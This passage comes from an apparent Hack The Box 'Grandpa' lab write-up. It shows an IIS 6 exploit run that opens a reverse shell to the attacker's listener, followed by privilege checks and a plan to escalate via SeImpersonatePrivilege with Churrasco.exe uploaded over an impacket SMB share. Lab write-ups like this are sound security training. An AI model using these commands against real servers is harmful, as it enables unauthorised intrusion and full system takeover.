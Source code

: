 ![](GitHub%20Documentation/EASY/HTB_Grandpa_Writeup/screenshots/exploit_propfind.png)

The exploit script requires:

- `targetip`  
- `targetport`  
- `reverseip`  
- `reverseport`

We run the exploit and set up a listener with `nc`:

```bash
python2 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 443
```

![[exploit_run.png]]

✅ Reverse shell obtained.

---
## 3. Post-Exploitation Enumeration

We check our privileges and system structure:

![](screenshots/whoami.png)

On Windows Server 2003, user profiles are located in **`Documents and Settings`** instead of `Users`:

![[users.png]]

Checking privileges:

![](GitHub%20Documentation/EASY/HTB_Grandpa_Writeup/screenshots/priv.png)

We have **SeImpersonatePrivilege** enabled, which can be exploited for privilege escalation.

---
## 4. Privilege Escalation – Churrasco.exe

Normally, **JuicyPotato** would be used, but it does not support Windows Server 2003 due to missing CLSIDs. 

![[GitHub Documentation/EASY/HTB_Granny_Writeup/screenshots/JP_clsid.png]]

Instead, we use **Churrasco.exe**, a community version adapted for Windows Server 2003.

Exploit reference: [Privilege Escalation – Churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

We upload `churrasco.exe` via an SMB share:

```bash
impacket-smbserver smbFolder $(pwd)
```
